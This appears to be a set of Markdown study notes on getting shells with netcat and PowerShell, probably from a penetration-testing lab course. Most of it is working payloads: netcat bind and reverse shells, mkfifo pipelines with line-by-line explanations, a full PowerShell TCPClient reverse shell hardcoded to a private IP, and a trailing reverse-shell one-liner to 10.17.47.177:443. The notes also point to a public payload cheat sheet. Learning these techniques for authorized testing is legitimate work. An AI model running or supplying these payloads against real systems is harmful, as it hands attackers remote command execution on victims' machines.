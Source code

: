 ## netcat connection
##### 1. Executing a process on action using netcat listener. 
**Example** - 
```python
nc -lvnp <PORT> -e /bin/bash
```
Connecting to the above listener with netcat would result in a **bind shell** on the target.

##### 2. Equally, for a reverse shell, connecting back would result in a **reverse shell** on the target with the below command:
```python
nc <LOCAL-IP> <PORT> -e /bin/bash
```

##### 3. On **Linux**, however, we would instead use this code to create a listener for a **bind shell**:
```python
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc -lvnp <PORT> < /tmp/f`: This sets up a netcat (nc) listener on a specified port (PORT) and redirects the input to come from the named pipe "/tmp/f". Netcat is a utility used for network communication.
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.
![[shells9.png]]

##### 4. A very similar command can be used to send a netcat reverse shell:
```python
mkfifo /tmp/f; nc <attacker-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc <LOCAL-IP> <PORT> < /tmp/f`: This uses netcat (nc) to connect to a specified IP address (LOCAL-IP) and port number (PORT). It redirects the input to come from the named pipe "/tmp/f".
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.

![[shells10.png]]

##### 5. Powershell reverse shell to exploit a modern Windows Server
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.45.240',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- In order to use this, we need to replace "IP" and "port" with an appropriate IP and choice of port.
- The above powershell script will work but you need to url encod it first.
- It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[shells11.png]]

**For other common reverse shell payloads visit this repo** --> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

mkfifo /tmp/f; nc 10.17.47.177 443 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f